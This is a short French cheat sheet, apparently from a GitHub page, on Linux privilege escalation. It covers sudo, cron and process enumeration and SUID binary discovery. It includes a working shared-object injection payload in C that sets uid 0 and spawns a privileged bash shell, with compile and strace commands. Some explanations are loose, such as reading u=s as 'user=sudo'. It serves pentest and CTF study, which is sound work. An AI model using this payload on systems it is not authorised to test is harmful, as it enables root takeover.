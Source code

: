 **SUDO, CRON, PROCESSUS, SUID**

## **1) Sudo**

- `sudo -l` : lister les commandes autorisées et interdites par l'utilisateur courant.
- `sudo -u toto [cmd]` : permet de lancer la commande \[cmd\] en tant que toto
- `su - [user]` : permet de se connecter en tant que user

## **2) Cron**

- Crontab : **CRON** est un programme qui permet d'exécuter automatiquement des scripts
    1.  `crontab -l` pour lister les crontab du user en cours.
    2.  `cat /etc/crontab`

## **3) Processus**

- `ps -aux` : lister les processus courant pour repérer si des process ont été lancés avec root par exemple.

## **4) SUID/SGID**

- GTFOBins : liste d'exécutable linux pouvant être exploité.
    Lien du site : `https://gtfobins.github.io/`.

Fichiers qui s'exécutent avec les droits root.

- /!\ 2 possibilités : /!\

1.  On a le password user et le bit s suffit.
2.  On a pas le password user => il faut que le fichier soit exécutable.

- `find / -perm /4000[OÙ -u=s] 2>/dev/null` : trouve les fichiers ayant une permission (si on ajoute le `-`, au moins égale) égale à `u=s` ie user=sudo. Donc cherche les fichiers root que l'on peut exécuter.
    
- **Shared object injection** :
    Lorsqu'un binaire SUID charge un fichier objet (.o) que l'on peut réécrire :
    
    ```
    #include <stdio.h>
    #include <stdlib.h>
    
    static void inject() __attribute__((constructor));
    
    void inject() {
        setuid(0);
        system("/bin/bash -p");
    }
    
    Compilation : gcc -shared -fPIC -o foo.o foo.c
    
    ```
    
    Pour chercher les appels d'un fichier binaires :
    `strace fic 2>&1 | grep -iE "open|access|no such file"`
    